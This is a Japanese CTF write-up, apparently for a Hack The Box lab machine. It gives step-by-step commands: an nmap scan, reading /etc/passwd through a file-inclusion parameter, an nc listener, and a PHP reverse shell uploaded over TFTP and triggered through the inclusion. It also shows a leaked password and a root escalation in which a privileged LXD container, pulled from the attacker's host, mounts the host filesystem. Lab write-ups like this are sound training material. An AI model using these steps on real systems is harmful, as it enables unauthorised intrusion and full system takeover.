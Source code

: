 
# 1.Port Scan
ip=10.129.95.185

対象IPのUDPポートをスキャン
UDPサービスを発見

`sudo nmap -sC -sV -sU $ip`

![b65e19b390e9e240c5dcf9a241a36ee8.png](../_resources/b65e19b390e9e240c5dcf9a241a36ee8.png)

## Web Site Search
`sudo nmap -sC -sV $ip`
再度スキャンを行いwebsiteを発見

![5df4e05cfe733dab8537af6bac469e94.png](../_resources/5df4e05cfe733dab8537af6bac469e94.png)

発見したwebsite

![9e88bd615a2c5176661a894e6318bd34.png](../_resources/9e88bd615a2c5176661a894e6318bd34.png)

## Curl
下図赤枠内のfile=home.phpを改ざんすればユーザのアカウント情報を格納していると思われるディレクトリを発見できると推測

![8df75eb5fb90680a1b50dec707590ad1.png](../_resources/8df75eb5fb90680a1b50dec707590ad1.png)

`curl 'http://$ip?file=/etc/passwd'`

![e9a74f51551877510af972086c4b679d.png](../_resources/e9a74f51551877510af972086c4b679d.png)

TFTPで接続

![2a374c192a19e799ea171db9e565a9f3.png](../_resources/2a374c192a19e799ea171db9e565a9f3.png)



# 2.TFTP Connect

指定ポートを解放

`nc -lvnp 1234`

![112c34b64d77f1d93f3a9e94eb415c54.png](../_resources/112c34b64d77f1d93f3a9e94eb415c54.png)

TFTPにアップロードしてスクリプトを起動
指定サーバーに接続

 `curl 'http://10.129.138.138?file=/var/lib/tftpboot/php-reverse-shell.php'`
  

![377831cf17aef46da907a14906ed433c.png](../_resources/377831cf17aef46da907a14906ed433c.png)

ホームディレクトリからuser.txtがあるmikeユーザを発見
権限が足らない事を確認。


![1f86e52cc09c9449d58332c97f24eb24.png](../_resources/1f86e52cc09c9449d58332c97f24eb24.png)

TFTPを使用してることから/var/www/html/を確認する

パスワードらしきものを発見

`ls -la /var/www/html/`

mike:Sheffield19

![b79298d51cd5858ba58b06f28a5dbfbc.png](../_resources/b79298d51cd5858ba58b06f28a5dbfbc.png)

ターミナルを起動


`python3 -c 'import pty;pty.spawn("/bin/bash")'`

![83c21c5942aa032e47b7a4e28e15e071.png](../_resources/83c21c5942aa032e47b7a4e28e15e071.png)

## 2. Get mike account

user.txtを取得

![8ea57feebe9210484dc9580867fcd655.png](../_resources/8ea57feebe9210484dc9580867fcd655.png)


# 3.build

`sudo apt install -y git golang-go debootstrap squashfs-tools` 

![cd3ba386faf24752aaef98e01e19feb1.png](../_resources/cd3ba386faf24752aaef98e01e19feb1.png)

`git clone https://github.com/lxc/distrobuilder`

![4f947d4c58f12b3055d861fde39c085c.png](../_resources/4f947d4c58f12b3055d861fde39c085c.png)

`cd distrobuilder`

`make`

![7bbcc2d94ef907f971e5e903d55dc8d5.png](../_resources/7bbcc2d94ef907f971e5e903d55dc8d5.png)

`mkdir -p ContainrImages/alpine/`

`ls`

`cd ContainerImages/alpine/`

`pwd`

`ls`

`wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml`  

`sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.8`

![f891266ca79b5f3f665123f715ee2274.png](../_resources/f891266ca79b5f3f665123f715ee2274.png)

# 4. server bild

`wget http://10.10.16.4:8000/lxd.tar.xz`

![69c4bbe3f8b8acd7a737189197e624b7.png](../_resources/69c4bbe3f8b8acd7a737189197e624b7.png)

`wget http://10.10.16.4:8000/rootfs.squashfs`

![171fa8c4b144e080a1c112409a2969b2.png](../_resources/171fa8c4b144e080a1c112409a2969b2.png)

`lxc image import lxd.tar.xz rootfs.squashfs --alias alpine`

![bef959fb710f39571f2f94eb6623ea98.png](../_resources/bef959fb710f39571f2f94eb6623ea98.png)

`lxc image list`

![aa97ed30bc5738636aaf5c3bf132136a.png](../_resources/aa97ed30bc5738636aaf5c3bf132136a.png)

`lxc init alpine privesc -c security.privileged=true`

![236f80794e7e79c8632bf5a70ab7d0c2.png](../_resources/236f80794e7e79c8632bf5a70ab7d0c2.png)

`lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true`

![d8efb862f967715eea894624d6550c70.png](../_resources/d8efb862f967715eea894624d6550c70.png)

`lxc start privesc`

`lxc exec privesc /bin/sh`

`id`

`cd /mnt/root/root`

`ls -al`

`cat root.txt`

![5b2af83de7d5eeef24e9b3c11d5ecb8b.png](../_resources/5b2af83de7d5eeef24e9b3c11d5ecb8b.png)


